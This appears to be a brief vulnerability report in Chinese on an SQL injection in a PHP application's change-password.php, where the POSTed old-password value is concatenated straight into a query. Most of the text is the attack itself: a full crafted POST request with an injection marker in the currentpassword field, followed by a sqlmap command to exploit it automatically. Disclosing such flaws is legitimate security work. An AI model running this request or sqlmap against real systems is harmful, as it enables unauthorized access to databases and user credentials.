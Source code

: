 change-password.php文件中$oldpassword直接拼接到sql语句中，而$oldpassword是通过POST请求直接获取的


![alt text](change-password.php%20sql%20inject-1.png)

构造恶意数据包
POST /change-password.php HTTP/1.1
Host: test.jc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://test.jc/admin/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Content-Type: application/x-www-form-urlencoded

update=a&currentpassword=aa*

sqlmap -r post.txt


![alt text](change-password.php%20sql%20inject-2.png)
